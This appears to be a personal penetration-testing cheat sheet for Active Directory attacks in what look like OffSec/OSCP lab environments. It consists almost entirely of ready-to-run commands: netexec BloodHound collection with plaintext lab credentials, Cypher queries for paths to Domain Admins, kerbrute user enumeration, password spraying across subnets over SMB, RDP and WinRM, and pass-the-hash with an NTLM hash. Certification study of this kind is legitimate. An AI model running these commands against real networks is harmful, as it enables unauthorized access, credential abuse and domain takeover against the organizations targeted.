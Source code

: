 ```jsx
netexec ldap nara.nara-security.com -u Tracy.White -p 'zqwj041FGX' --bloodhound -c all -ns 192.168.181.30
netexec ldap dc01.oscp.exam -u web_svc -p 'Diamond1' --bloodhound -c all -ns 10.10.184.146
```

```jsx
sudo neo4j start
```

```jsx
bloodhound
```

```jsx
MATCH p = (c:Computer)-[:HasSession]->(m:User) RETURN p
```

```jsx
MATCH p=shortestPath((n)-[:Owns|GenericAll|GenericWrite|WriteOwner|WriteDacl|MemberOf|ForceChangePassword|AllExtendedRights|AddMember|HasSession|Contains|GPLink|AllowedToDelegate|TrustedBy|AllowedToAct|AdminTo|CanPSRemote|CanRDP|ExecuteDCOM|HasSIDHistory|AddSelf|DCSync|ReadLAPSPassword|ReadGMSAPassword|DumpSMSAPassword|SQLAdmin|AddAllowedToAct|WriteSPN|AddKeyCredentialLink|SyncLAPSPassword|WriteAccountRestrictions|GoldenCert|ADCSESC1|ADCSESC3|ADCSESC4|ADCSESC5|ADCSESC6a|ADCSESC6b|ADCSESC7|ADCSESC9a|ADCSESC9b|ADCSESC10a|ADCSESC10b|ADCSESC13|DCFor*1..]->(g:Group))
WHERE g.objectid ENDS WITH "-512" AND n<>g
RETURN p
```

## Netexec - Spray credentials

<aside>
💡 When all else fails - take a look at this cheat sheet SPIDER MODULE / ALL IN ONE!

</aside>

[https://github.com/seriotonctf/cme-nxc-cheat-sheet](https://github.com/seriotonctf/cme-nxc-cheat-sheet)

```jsx
kerbrute -domain hutch.offsec -users ./users.txt -dc-ip 192.168.219.122
```

```jsx
netexec smb 192.168.226.172 -u anirudh -p SecureHM --shares
```

```jsx
netexec smb 172.16.229.254 -u Administrator -H 'b2c03054c306ac8fc5f9d188710b0168' --local-auth
```

```jsx
netexec smb 172.16.229.0/24 -u joe -p 'Flowers1' --continue-on-success
```

```jsx
netexec rdp 172.16.191.0/24 -u yoshi -p 'Mushroom!' --continue-on-success
```

```jsx
netexec winrm 172.16.238.83 -u 'wario' -p 'Mushroom!'
```
